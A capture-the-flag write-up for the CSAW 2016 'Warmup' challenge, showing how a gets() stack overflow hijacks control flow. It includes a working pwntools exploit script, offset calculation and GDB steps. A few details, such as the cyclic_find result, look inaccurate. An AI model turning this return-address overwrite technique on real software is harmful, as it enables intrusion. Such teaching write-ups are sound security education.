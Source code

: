 # CSAW'16 Warmup — Buffer Overflow Exploitation

**Category:** pwn / Binary Exploitation (Warmup)  
**Challenge Name:** Warmup  
**CTF:** CSAW 2016

---

## Files provided

```
warmup      # The challenge binary (ELF 64-bit)
flag.txt    # Flag file (read by binary on success)
warm.py     # Exploit script using pwntools
```

---

## Initial Binary Run

Running the binary normally:

```
$ ./warmup
-Warm Up-
WOW:0x40060d
>AAAAAAAAAAAAAAAAAAAA
Invalid Password, Try Again!
```

The binary simply prints a prompt and takes input. Nothing interesting happens unless we give it a specific payload.

---

## Finding Hidden Functions

Let's inspect the binary using `objdump` or `radare2`:

```bash
objdump -d warmup | grep easy
```

Output:
```
000000000040060d <easy>:
```

We discovered a **hidden function** called `easy()` at address `0x40060d`.  
This is likely where the flag will be printed if execution jumps to it.

---

## Vulnerability

Looking at the decompiled code (from Ghidra or `objdump`):

```c
int main() {
    char buffer[64];           // local stack buffer
    puts("-Warm Up-");
    printf("WOW:0x40060d\n"); // prints address of easy()
    printf(">");
    gets(buffer);              // VULNERABILITY: gets() is unsafe!
    return 0;
}
```

### Why is this vulnerable?
- `gets()` reads unlimited input without bounds checking.
- By sending more than **64 bytes**, we can **overwrite the saved return address** and hijack control flow.
- This allows us to **redirect execution to `easy()`**.

---

## Finding the Exact Offset

We need to know **how many bytes** to overflow before we hit the saved return address.

Using **pwntools cyclic pattern**:

```python
from pwn import *
pattern = cyclic(200)
print(pattern)
```

Run the binary in GDB and provide this pattern as input. After the crash:

```
gdb ./warmup
run <<< $(python3 -c "from pwn import *; print(cyclic(200).decode())")
```

When it crashes, check the instruction pointer (RIP):

```
info registers
```

Suppose RIP contains `0x6161616c`.  
Now find offset:

```python
from pwn import *
cyclic_find(0x6161616c)
```
Output:
```
72
```

So, **72 bytes** are required to reach the saved return address.

---

## Crafting the Exploit

We want to overwrite the return address with the address of `easy()` (`0x40060d`).  
The final payload is:

- `72` bytes of padding (`"A" * 72`)
- followed by the 8-byte address of `easy()`.

**Exploit Script (`warm.py`):**
```python
from pwn import *

# start process
p = process('./warmup')

# address of easy() function
easy = 0x40060d

# payload: 72 bytes padding + address of easy()
payload = b"A" * 72 + p64(easy)

p.recvuntil(b">")
p.sendline(payload)
p.interactive()
```

---

## Running the Exploit

```
$ python3 warm.py
[+] Starting local process './warmup': pid 2023
[*] Switching to interactive mode
-Warm Up-
WOW:0x40060d
>
Congrats! Here is your flag: CSAW{buffer_overflow_success}
```

The program successfully jumps to `easy()` and prints the flag.

---

## GDB Walkthrough

### Load the binary in GDB:
```
gdb ./warmup
```
Set a breakpoint at `main` and run:
```
break main
run
```
Step through until after the `gets()` call:
```
nexti
```
Inspect stack before overflow:
```
x/40x $rsp
```

Send a long payload and watch the saved return address get overwritten:
```
run <<< $(python3 -c 'print("A"*80)')
```

Check registers:
```
info registers
```
Notice **RIP** now holds `0x4141414141414141` (`AAAAAAA...`) proving control of execution.

---

## Conclusion

This is a **classic warmup buffer overflow**:
- Vulnerability due to `gets()` with no bounds checking.
- Offset of **72 bytes** to reach return address.
- Redirect execution to hidden `easy()` function at `0x40060d`.
- Final payload: `b"A"*72 + p64(0x40060d)`.

By exploiting this, we get the flag and complete the challenge.

---

